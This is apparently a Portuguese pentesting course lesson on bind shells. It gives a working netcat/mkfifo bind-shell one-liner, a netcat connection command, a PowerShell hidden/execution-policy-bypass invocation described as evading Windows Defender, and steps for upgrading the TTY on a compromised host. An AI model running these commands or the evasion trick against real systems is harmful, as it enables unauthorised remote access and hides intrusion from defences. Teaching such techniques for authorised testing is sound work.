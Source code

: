 # Bind shell
Bind shell é um shell que se conecta ao sistema alvo, que está ouvindo em uma porta específica. Depois de descobrir a brecha no sistema alvo, podemos usar ferramentas como netcat, socat ou até mesmo python para criar um shell bind. Depois disso executamos o shell no sistema falho e o atacante se conecta a nós.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

Para burlar antivirus como o windows defender ao escrever um código em powershell, podemos usar o comando `powershell -NoP -NonI -W Hidden -Exec Bypass -Command` para executar o código sem que o windows defender detecte.

## Ouvinte netcat

Precisamos de um ouvinte para receber a conexão do shell bind, seja por nc, socket ou outro. 
```shell
$ nc 10.10.10.1 4444
```
Esse comando é executado em algum lugar do alvo que permita RCE (Remote Code Execution), como um arquivo PHP, um formulário de upload, um SQL Injection, depois nos conectamos ao ouvinte na porta especificada nesse comando.

## Melhorando o TTY
O TTY padrão que obtemos ao conseguir o shell é limitado, comandos como `clear`, `Ctrl+C`, `Ctrl+Z`, `Ctrl+D`, acesso do histórico de comandos e outros podem não funcionar corretamente, podemos melhorar a interação com o shell. 

**Nota: O método a seguir funciona apenas em sistemas com python instalado.**

TTY é o terminal do sistema, quando usamos um shell bind, o TTY pode não estar configurado corretamente, para melhorar o TTY, podemos usar o comando `'import pty; pty.spawn("/bin/bash")'` para melhorar a interação com o shell.

Depois apertamos *Ctrl+Z* para suspender o processo, depois usamos o comando `stty raw -echo; fg` para melhorar a interação com o shell.

fg trás o processo suspenso de volta, e stty raw -echo configura o TTY para melhorar a interação com o shell.

Quando executamos o comando `stty raw -echo`, o shell pode ficar sem echo, para resolver isso, usamos o comando `reset` + enter para corrigir o TTY.

Quando abrirmos o shell, ele pode não ocupar toda a janela do terminal, para resolver isso, usamos o comando `echo $TERM` em uma outra aba do terminal (no nosso sistema) para saber o tipo de terminal, depois usamos `stty size` para saber o tamanho da do nosso terminal. 

Supondo uma saida de stty size
`67    318`

Você deve imaginar o objetivo de todos esses comandos no nosso terminal, obviamente ficariamos mais confortáveis com um terminal idêntico ao nosso, para isso podemos

alterar a variável do terminal invadido
```bash
$ export TERM=xterm-256color

$ stty rows 67 columns 318
```

[próxima aula](shell3_web.md)

